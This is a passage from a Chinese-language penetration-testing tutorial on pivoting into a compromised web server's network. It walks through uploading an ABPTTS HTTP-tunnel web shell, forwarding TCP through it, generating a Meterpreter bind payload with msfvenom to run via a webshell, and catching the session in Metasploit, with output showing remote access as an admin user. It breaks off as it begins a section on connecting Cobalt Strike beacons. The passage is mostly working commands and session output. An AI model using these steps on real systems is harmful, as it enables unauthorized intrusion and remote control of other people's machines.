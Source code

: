 * 通过正向的HTTP隧道构建TCP连接

```
# 配置abptts运行环境
# 注意windows安装pycrypto库需要先安装依赖http://aka.ms/vcpython27

pip install httplib2
pip install pycrypto

# 生成server端脚本

python abpttsfactory.py -o server

# 上传server端脚本到web服务器，客户端运行以下命令

python abpttsclient.py -c server/config.txt -u "http://192.168.168.10/abptts.aspx" -f 127.0.0.1:7777/127.0.0.1:8888

# abptts客户端监听127.0.0.1:7777，通过http://192.168.168.10/abptts.aspx这个http隧道，将tcp连接127.0.0.1:7777转发到web服务器网络下的127.0.0.1:8888
```

* 生成bind类型的payload，通过webshell上传执行

```
# 这里的rhost和lport是转发的目的IP和端口

msfvenom -p windows/meterpreter/bind_tcp rhost=127.0.0.1 lport=8888 -f exe -o meterpreter.exe
```

* 启动msf监听，等待meterpreter执行上线

```
#这里的rhost和lport是abptts客户端监听的IP和端口，msf所在主机必须能访问到这个IP和端口，这里msf和abptts在同一个主机上

msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/bind_tcp
payload => windows/meterpreter/bind_tcp
msf5 exploit(multi/handler) > set rhost 127.0.0.1
rhost => 127.0.0.1
msf5 exploit(multi/handler) > set lport 7777
lport => 7777
msf5 exploit(multi/handler) > run

[*] Started bind TCP handler against 127.0.0.1:7777
[*] Sending stage (180291 bytes) to 127.0.0.1
[*] Meterpreter session 1 opened (0.0.0.0:0 -> 127.0.0.1:7777) at 2020-04-27 04:50:25 -0400

meterpreter > getuid
Server username: DESKTOP-0AH7FQ0\admin
```

##### 上线cobaltstrike

由于cobaltstrike的bind类型的监听器仅有beacon TCP和beacon SMB，并且都必须连接到父beacon，无法直接连接cobalstrike服务端，所以我们需要一个父beacon来中转连接。
